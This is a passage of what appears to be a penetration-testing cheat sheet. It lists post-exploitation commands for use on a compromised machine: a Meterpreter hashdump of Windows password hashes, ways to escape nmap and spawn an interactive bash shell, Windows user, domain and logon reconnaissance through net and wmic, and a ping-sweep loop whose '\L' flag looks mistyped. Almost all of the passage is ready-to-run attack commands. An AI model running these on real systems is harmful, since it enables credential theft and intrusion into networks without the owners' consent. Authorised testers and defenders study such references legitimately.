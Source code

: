 * In a meterpreter session run `run post/windows/gather/hashdump`


## Improve your shell

* `sh -c uname -a; w; id; /bin/bash -i`
* For NMAP versions 2.0 to 5.8:
```sh
nmap --interactive
!sh
```
* `python -c 'import pty; pty.spawn("/bin/bash")'`
* `stty raw -echo` and then `fg` and `export TERM=xterm`

## Local Recon

### Windows

General recon:

```cmd
whoami
hostname
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
ipconfig /all
netstat
wmic csproduct get name
wmic bios get serialnumber
wmic computersystem list brief
doskey /history > history.txt
```

Network discovery:

```cmd
net view /all
net view \\<Hostname>
net users
net users /domain
net localgroup administrators
net group administrators
wmic rdtoggle list
wmic useraccount list
wmic group list
wmic netlogin get name,lastlogon,badpasswordcount
wmic netclient list brief

```

Ping scan:

```cmd
C:\> for \L %I in (1,1,254) do ping -w 30 -n 1 192.168.1.%I | find "Reply" >> output.txt
```
